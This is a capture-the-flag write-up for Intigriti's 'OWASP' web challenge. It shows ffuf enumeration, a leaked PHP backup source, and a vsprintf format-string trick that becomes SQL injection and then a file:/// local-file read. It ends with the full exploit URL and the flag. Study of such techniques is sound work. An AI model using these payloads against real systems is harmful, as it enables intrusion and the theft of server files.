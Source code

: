 # OWASP, web, 500 points, 6 solves  
Everyone knows the OWASP top 10 are vulnerable, I guess this might be too 💀  Author: Ivars Vids  `https://owasp.ctf.intigriti.io`  

---
Website shows OWASP Top Ten security risks, containing a search bar ar the top.

![owasp-website-screenshot](owasp-website-screenshot.webp)

Searching for "injection" shows a single risk about injection and URL changes to `https://owasp.ctf.intigriti.io/search.php?title=injection`.

![owasp-website-search-screenshot](owasp-website-search-screenshot.webp)

As none of the common injections work (SQL, command, template, etc.) and there's nothing more interesing,
more enumeration is required to discover anything useful. Website is PHP-based, let's search for more PHP files.

```
$ ffuf -u https://owasp.ctf.intigriti.io/FUZZ -w ~/SecLists/Discovery/Web-Content/common.txt -mc 200 -e '.php'
(..)
db.php                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 31ms]
footer.php              [Status: 200, Size: 29, Words: 1, Lines: 5, Duration: 18ms]
header.php              [Status: 200, Size: 344, Words: 29, Lines: 15, Duration: 30ms]
index.php               [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 30ms]
index.php               [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 51ms]
robots.txt              [Status: 200, Size: 53, Words: 2, Lines: 2, Duration: 18ms]
search.php              [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 140ms]
```

Nothing interesting in these files, except a troll containing `robots.txt`:

```
Sitemap: https://www.youtube.com/watch?v=DPtn9KzfsGI
```

Trying to search for various PHP backup files turns out to be more fruitful.

```
$ ffuf -u https://owasp.ctf.intigriti.io/FUZZ -w ~/src/sec/SecLists/Discovery/Web-Content/common.txt -mc 200 -e '.php~,.php.old,.php.bak,.php.swp,.php.sav,.php.save'
(..)
index.php               [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 64ms]
robots.txt              [Status: 200, Size: 53, Words: 2, Lines: 2, Duration: 12ms]
search.php.save         [Status: 200, Size: 1295, Words: 167, Lines: 45, Duration: 22ms]
```

A complete source for `search.php` is revealed in `https://owasp.ctf.intigriti.io/search.php.save`:

```php
<?php
require_once('db.php');
$flag = file_get_contents('/flag.txt');
@include('header.php');

//build sql query
$sql = 'select * from owasp';
$sql_where = '';
foreach ($_REQUEST as $field => $value){
  if ($sql_where) $sql_where = " AND $sql_where";
  $sql_where = "position(%s in $field) $sql_where";
  try {
    $sql_where = @vsprintf($sql_where, Array("'". sqlesc($value) . "'"));
  } catch (ValueError | TypeError $e) {
    $sql_where = '';
  }
  if (preg_match('/[^a-z0-9\.\-_]/i', $field)) die ('Hacking attempt!');
}
$sql .= ($sql_where)?" where $sql_where":'';

foreach(sqlquery($sql) as $row){
  @include('row.php');
  $config = json_decode($row['config'], true);
}

if (isset($config['flag']) && $config['flag']){
  $url = $config['url'];
  // no printer manufacturer domains
  if (preg_match('/canon|epson|brother|hp|minolta|sharp|dell|oki|samsung|xerox|lexmark/i', $url)) die('Looks like a printer!');
//  $url = 'https://www.youtube.com/watch?v=2U3Faa3DejQ';
  if (filter_var($url, FILTER_VALIDATE_URL)) {
    $http_resp = file_get_contents($url);
    var_dump($http_resp);
    if ($flag === $http_resp){
      die('Yes! You got the right flag!');
    }
    die('Wrong flag');
  }
  else {
    die('URL does not start with HTTP or HTTPS protocol!');
  }
}

@include('footer.php');
```

There's a lot going on, but bascially the code generates SQL query from request parameters and expects a row containing `config` column with JSON content.
If the JSON content contains `flag` field and `url` field, then `url` field is passed to `file_get_contents` and compared with actual flag.

So the idea would be to make the code execute SQL query, which contains `config` column with `flag` and `url` fields, where latter would contain actual flag.
And to actually get it done, there must be an SQL injection somewhere. Ok.

Going back to SQL query generation, the initial request query `?title=injection` would run SQL query `select * from owasp where position('injection' in title)`.
Multiple parameter request query like `?field1=value2&field2=value2&...` would execute SQL query `select * from owasp where position(<value1> in <field1>) and position(<value2> in <field2>) ...`.

The `<field>` is matched with `preg_match` function, using regular expression `[^a-z0-9.-_]` and otherwise, the code is stopped with message about hacking.
The `<value>` is processed as a value to `vsprintf` function, where the only format string used is pre-defined `%s`. If the `vsprintf` somehow fails, neither `<value>` nor `<field>` is used.
Everything seems legit at the first glance.

Running a request with unknown field, e.g., `?test=123` returns MySQL error:

```php
Fatal error: Uncaught mysqli_sql_exception: Unknown column 'test' in 'where clause' in /var/www/html/db.php:11 Stack trace: #0 /var/www/html/db.php(11): mysqli->query('select * from o...') #1 /var/www/html/search.php(21): sqlquery('select * from o...') #2 {main} thrown in /var/www/html/db.php on line 11
```

This actually allows to brute-force all the columns in the table.

```
$ ffuf -u 'https://owasp.ctf.intigriti.io/?FUZZ=' -w ~/src/sec/SecLists/Discovery/Web-Content/burp-parameter-names.txt -fr 'mysql'
(..)
ID                      [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 18ms]
Id                      [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 21ms]
Title                   [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 26ms]
config                  [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 17ms]
description             [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 47ms]
id                      [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 210ms]
null                    [Status: 200, Size: 373, Words: 29, Lines: 19, Duration: 50ms]
title                   [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 213ms]
```

So the table, most probably, has columns `id, title, config, description`.  

Continuing to brute-force the `config` column like `?config=flag`, results in several strings like `flag`, `proto`, `false`, `description`, `1337UP` and a troll link `https://www.youtube.com/watch?v=Ct6BUPvE2sM`. This asserts that `config` contains JSON with `flag` field as previous link to YouTube. No `url` field, though.

All of this is fun and stuff, but doesn't help to solve the challenge.

Looking back at restrictions, the `<field>` is very restrictive (`[^a-z0-9.-_]`), but if `preg_match` function would return neither `0` nor `1`, but a `false` (on failure), then all is golden. Unfortunately, conditions for failure, like hitting a backtrack limit or a recursion limit, doesn't apply here, due very strict regular expression.

So the only place left to look is how `vsprintf` function is being used. On it's own, it would be safe, but in this case the "format" comes not only from pre-defined string `position(%s in $field)`, but also from previously generated where clause (they are concatenated). For example, if request query is `?field1=value1&field2=value`, then `vsprintf` is called two times:
1) format `position(%s in field1)`, value `'value1'`
2) format `position('value1' in field1) and position(%s in field2)`, value `'value2'`  

This leads to format string injection.

Injecting a simple `%s` would not work, as it would lead to format string `.. %s .. %s ..` with only one value in arguments and would fail.
But using `%1$s` would work fine, as it would lead to format string `... %s .. %1$s` and would work with single value in arguments.

Constructing a request query `?id=%1$s&title=in title) OR 1=1 -- -` results in successful SQL injection as the query would look like `select * from owasp where position('' in title) OR 1=1 -- - ' in id) and position('in title) or 1=1 -- -' in title)`.

Number of columns could be brute-forced, but, as deducted before, there are 4 columns in the table and request query `?id=%1$s&title=in title) UNION SELECT 1,1,1,1 -- -` works perfectly returning four ones.

The last step is to find which column is `config` and construct a JSON, which would contain required `flag` and `url` fields.
As the `url` is bluntly passed to `file_get_contents`, it can be simply `file:///flag.txt` and it will read it's contents.

```python
>>> b'{"flag":1,"url":"file:///flag.txt"}'.hex()
'7b22666c6167223a312c2275726c223a2266696c653a2f2f2f666c61672e747874227d'
```

The winning request: `https://owasp.ctf.intigriti.io/search.php?id=%1$s&title=in title) UNION SELECT 1,1,1,0x7b22666c6167223a312c2275726c223a2266696c653a2f2f2f666c61672e747874227d-- -`

Flag: `INTIGRITI{php_n4n0_5ql1_lf1_53cr37_fl46}`

---
P.S. 

There exists another troll table `flag` in the database, containing link to `https://www.youtube.com/watch?v=dQw4w9WgXcQ`.
